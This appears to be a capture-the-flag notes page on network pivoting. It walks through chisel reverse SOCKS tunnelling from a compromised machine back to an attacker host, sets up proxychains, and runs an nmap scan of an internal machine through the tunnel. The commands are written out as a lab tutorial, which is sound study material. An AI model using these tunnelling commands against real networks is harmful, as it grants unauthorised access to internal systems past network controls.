 ### Network Pivoting

<p align="center">
<img src="https://miro.medium.com/max/700/1*exRPwGYJpGv6eESldShwzQ.png"/><br />
Image from Vickie Li's <a href="https://medium.com/swlh/proxying-like-a-pro-cccdc177b081">post</a></p>

**Summary:**
  - Network pivoting is the process of accessing an internal machine with the help of the compromised machine.
  - Connection lies between the compromised machine and the internal machine, and no direct connection will be available from the attacker machine to the internal machine
  - So in order to access the internal machine, we will make use of the compromised machine which has access to the internal machine

**Dynamic Port Forwarding:**
```bash
Dynamic Port Forwarding is the third major method of port redirection with SSH. 
Where as previously both local and remote port forwarding allowed interaction with a single port, 
dynamic allows a full range of TCP communication across a range of ports. 
The tool proxychains is also used to force any program you wish to use through the dynamic proxy.
```

**Requirements:** 
- To directly access the internal machine from the attacker machine, we can make the compromised machine as a proxy server and make all our requests to go via the compromised server to the internal machine
- To perform this we need an `ssh / chisel service` and `proxychains` in attacker machine
- If chisel is not available in the target machine, [chisel](https://github.com/jpillora/chisel/releases/tag/v1.7.4) release page

**Procedure:**
- Transfer the `chisel` binary to the compromised machine
- On the Attacker machine:
```bash
# attacker IP: 192.168.1.1
# syntax: ./chisel server -p {port} --reverse
./chisel server -p 1337 --reverse
```
- On the compromised machine
```bash
# syntax: chisel client {attacker IP}:{port on chisel server} R:socks
./chisel client 192.168.1.1:1337 R:socks # on a debian based machine
chisel.exe client 192.168.1.1:1337 R:socks # on a windows machine
```
- On successful connection, the chisel server running on the attacker machine will pop the message
```bash
2021/01/15 17:11:47 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```
- The message implies that the connection is made via a socks proxy on the port `1080` which is a default proxy for the chisel
- Add the following line in the `/etc/proxychains.conf`
```bash
socks5 127.0.0.1 1080
```
- Now Whenever a command is executed in the attacker machine with mentioning the proxychains, 
```bash
kali -> proxychains:1080 -> compromised_machine:1080 -> request for accessing from internal_machine -> internal_machine:80
```

<p align="center">
<img src="https://github.com/cyberwr3nch/hackthebox/blob/master/scripts/files/Pivoting.jpg"/> <br />
Image by <a href="https://github.com/cyberwr3nch">cyberwr3nch</a></p>


**Syntax:**
```bash
# nmap port scan
proxychains nmap -p22,80,8080,21,443,445 -sT internal_machinesIP

# opening internal_machine webserver
proxychains firefox internal_machinesIP:80
```

<h5>Thanks <a href="https://github.com/adithyan-ak">@adithyan-ak</a> for binding me in</h5>
